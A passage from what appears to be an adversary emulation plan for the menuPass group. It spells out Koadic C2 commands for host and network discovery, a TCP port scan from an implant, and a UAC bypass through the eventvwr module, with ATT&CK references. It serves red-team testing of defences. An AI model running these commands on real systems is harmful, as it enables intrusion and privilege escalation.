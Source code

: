 After achieving initial execution, menuPass actors are reported to have performed cursory situational awareness checks.  These checks are intended to determine suitability for implantation with a sustained implant.<sup>[16](https://trendmicro.com/en_us/research/18/c/chessmaster-adds-updated-tools-to-its-arsenal.html)</sup>

### Procedures

#### 3.A - System Network Configuration Discovery ([T1016](https://attack.mitre.org/techniques/T1016/)), System Network Connections Discovery ([T1049](https://attack.mitre.org/techniques/T1049/)) <sup>[16](https://trendmicro.com/en_us/research/18/c/chessmaster-adds-updated-tools-to-its-arsenal.html)</sup>

Attacker

```cmd
(koadic: sta/js/mshta)# zombies
(koadic: sta/js/mshta)# cmdshell #{zombie_id}
C:\Users\Victim> ipconfig /all
C:\Users\Victim> tasklist /v
C:\Users\Victim> net view
C:\Users\Victim> netstat -ano
```

#### 3.B

```cmd
(koadic: sta/js/mshta)# use implant/scan/tcp
(koadic: imp/sca/tcp)# set rhosts #{remote_hosts}
(koadic: imp/sca/tcp)# set rports #{ports_to_scan}
(koadic: imp/sca/tcp)# set zombies #{zombie_id}
(koadic: imp/sca/tcp)# run
```

## Step 4 - menuPass Privilege Escalation

In Scenario 1, menuPass is presumed to have initially accessed the target environment using compromised credentials that granted elevated privileges.  As such, privilege escalation was not necessary.  menuPass is reported to have sought access to additional credentials to ensure freedom of movement throughout the domain.  This elevated access was a result of the method of initial access.

Scenario 2 differs in this regard as the initial method of access is presumed to be phishing.  Phishing does not always result in elevated access.  As such, elevation to increase process integrity is required to use the tools that grant additional credential access.  As such, we suggest either "white carding" Administrative access or leveraging Koadic's "elevate" modules to attempt escalation.

#### 4.A

```cmd
(koadic: sta/js/mshta)# use implant/elevate/bypassuac_eventvwr
(koadic: implant/ele/bypassuac_eventvwr)# set payload #{payload_id}
(koadic: implant/ele/bypassuac_eventvwr)# set zombie #{zombie_id}
(koadic: implant/ele/bypassuac_eventvwr)# run
```
